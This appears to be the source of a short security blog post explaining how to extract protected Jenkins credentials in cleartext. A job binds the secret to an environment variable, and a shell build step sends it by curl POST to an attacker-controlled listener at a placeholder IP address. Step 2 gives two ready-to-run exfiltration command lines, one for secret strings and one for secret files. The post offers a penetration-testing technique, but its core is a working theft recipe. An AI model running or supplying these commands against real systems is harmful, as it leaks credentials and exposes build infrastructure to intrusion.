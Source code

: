```yaml
---
layout: post
title: Dumping Jenkins credentials
excerpt_separator: <!--more-->
---
```


A very dumb way to access Jenkins protected credentials which I have not found documented anywhere.


<!--more-->

You will need:

- A user logged in the web panel who can use a credential in a Jenkins task

- A listener in an IP address reachable from the Jenkins master node. Perfect candidates are Jenkins slaves or the master node.

I found this technique very useful for a project where some credentials were not correctly decrypted using typical tools such as [https://github.com/hoto/jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) which extract these values from the files credentials.xml, master.key and hudson.util.Secret.

<br>

### Step 1: Use secret text(s) or file (s)

Create a task and include the credential as a variable named "TEST" checking "Use secret text(s) or file (s)" in the Environment section:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_1.png)


### Step 2: Execute command line (shell) in Build Steps

Next, check "Execute command line (shell)" in Build Steps section. The trick is creating a POST request to the IP address reachable from the node and using the credential (an environmental variable) as body. Here you have two options, if the credential is a string you can use something like this:

```
whoami; ip a; curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST"'."}'
```

If the credential is a file you can create a second dummy environmental variable like this:

```
whoami; ip a; TEST2=$(cat "$TEST"); curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST2"'."}'
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_2.png)

The "whoami; ip a;" part is not necessary but you can use something like this to check the task is executed correctly even if step 3 fails. And you can use the port you prefer and not 8081.

In this example the Jenkins master node is a Linux system, but I guess something similar can be used in Windows using Powershell :).


### Step 3: Set up a listener and (hopefully) receive the credential in cleartext

Finally, set up a listener and run the task, you should get the credential: 

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)


<br>
